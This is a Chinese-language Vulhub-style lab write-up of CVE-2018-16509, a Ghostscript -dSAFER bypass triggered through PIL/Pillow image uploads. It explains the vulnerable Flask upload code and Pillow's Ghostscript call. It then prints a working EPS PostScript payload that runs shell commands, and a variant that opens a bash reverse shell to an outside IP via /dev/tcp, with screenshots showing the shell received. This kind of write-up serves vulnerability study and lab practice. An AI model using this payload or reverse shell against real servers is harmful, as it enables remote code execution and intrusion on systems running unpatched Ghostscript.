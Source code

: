 # Python PIL 远程命令执行漏洞 CVE-2018-16509

## 漏洞描述

通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。

Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如`/usr/local/bin/gs`，或`/usr/bin/gs`) 。

CVE-2018-16509漏洞允许在 v9.24 之前的 Ghostscript 中通过-dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。

此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞分析

可以通过上传[rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg) （一个EPS图像，并不是一个真正的JPG）来在服务器中执行命令`touch /tmp/got_rce`。

通过命令`docker container ls`获取容器ID。

如果想执行其他命令，可以在rce.jpg中修改命令`touch /tmp/got_rce`为任意其他命令。

可以参考 Tavis Ormandy 在[oss-security](https://seclists.org/oss-sec/2018/q3/142)中对漏洞的解释。

可以在[EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)中查看PIL/Pillow中Ghostscript的源代码。

易受攻击的代码如下，例如app.py：

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

上传文件将通过`img = Image.open(img_path)`加载。PIL将自动检测图片是否为EPS图片（例如，文件头为`%!PS-Adobe-3.0 EPSF-3.0`）。随后，将调用EpsImageFile类EPSImagePlugin.py文件中的`_open()`函数。

为了避免触发错误`raise IOError("cannot determine EPS bounding box")`，文件中将加入边界框信息（例如，`%%BoundingBox: -0 -0 100 100`）。

EPS图像将被EPSImagePlugin.py文件中的`Ghostscript`函数的`subprocess`进行处理：

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

以上代码将在Image.py文件中的`load`被调用的时候才会被调用，所以只打开图片不会触发漏洞。` resize`、 `crop`、`rotate`、和 `save` 函数将会调用`load` ，并触发漏洞。

结合 Tavis Ormandy 的 POC，我们可以制作`rce.jpg`，实现远程 shell 命令执行。

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

成功执行命令`touch /tmp/got_rce`：

![image-20220228165944812](images/202202281659859.png)

将`touch /tmp/tmp/got_rce`命令改为反弹shell命令：

```
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
```

成功接收反弹shell：

![image-20220228170145831](images/202202281701913.png)



